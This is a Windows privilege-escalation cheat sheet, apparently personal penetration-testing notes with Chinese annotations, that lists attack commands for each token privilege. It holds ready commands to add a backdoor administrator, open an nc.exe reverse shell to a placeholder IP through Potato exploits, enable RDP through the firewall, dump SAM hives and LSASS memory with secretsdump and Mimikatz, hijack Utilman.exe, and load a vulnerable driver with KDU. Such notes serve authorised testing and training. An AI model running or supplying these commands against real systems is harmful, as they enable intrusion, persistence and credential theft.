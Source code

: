 ### whoami /priv
- SeImpersonatePrivilege: PrintSpoofer
冒充高權限 client token
    - [SigmaPotato](https://hackmd.io/@CHW/H1F8rLl5kg#SigmaPotato):`/home/chw/Desktop/upload_tools/SigmaPotato.exe`
        - `.\SigmaPotato "net user chw chw /add"`
        - `.\SigmaPotato "net localgroup Administrators chw /add"`
        - (No GUI) `runas /user:chw "C:\users\{User}\desktop\nc.exe -e cmd.exe {IP} {Port}" ` 
        - or rdp
        ```
        net user chw chw
        net localgroup Administrators chw /add
        reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
        netsh firewall set service remoteadmin enable
        netsh firewall add portopening TCP 3389 RDP enable
        ```
    - [Juicy-Potato-x86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2):`/home/chw/Desktop/upload_tools/Juicy.Potato.x86.exe`
        - Windows 7/2008 R2 (x86/x64)
        - [CLID Search](https://github.com/ohpe/juicy-potato/tree/master/CLSID/?source=post_page-----96e74b36375a---------------------------------------)
        - `.\Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe {IP} {Port}" -t * -c {{CLID}}`

- SeBackupPrivilege: Shadow Copy
可繞過 NTFS ACL，讀取 SAM/SECURITY/SYSTEM registry hive
    - 查看 `C:\Windows\System32\config\SYSTEM`
    - `reg save HKLM\SYSTEM system`
    - `reg save HKLM\SAM sam`
    - (Kali) `impacket-secretsdump  -system system -sam sam LOCAL`

- SeRestorePrivilege: Utilman.exe Hijack
繞過 ACL 覆寫 Windows 系統檔案
    - ` mv C:/Windows/System32/Utilman.exe C:/Windows/System32/Utilman.old `
    - `mv C:/Windows/System32/cmd.exe C:/Windows/System32/Utilman.exe`
    - Restart or logout ex.`RDP` 

- SeDebugPrivilege: Dump LSASS
可 attach 到 SYSTEM 等級的行程
    - [Procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump?utm_source=chatgpt.com):`/home/chw/Desktop/upload_tools/Procdump/`
        - `procdump.exe -ma lsass.exe lsass.dmp`
    - Mimikatz
        - `sekurlsa::logonpasswords`

- SeTakeOwnershipPrivilege
奪取檔案或服務的所有權，再修改 ACL → 寫入惡意檔
    - `takeown /f C:\Windows\System32\utilman.exe`(`cmd.exe`): 獲取 utilman 所有權
    - `icacls C:\Windows\System32\utilman.exe /grant chw:F`: 修改檔案 ACL，把帳號 chw 加入
    
- SeLoadDriverPrivilege
載入惡意驅動，能直接修改記憶體，注入 SYSTEM shell
    - [KDU](https://github.com/hfiref0x/KDU), [TDL](https://github.com/hfiref0x/TDL)
        - `kdu.exe -map 0 drv\rtcore64.sys`
        - `whoami`
        - `kdu.exe -drvl -pshell`
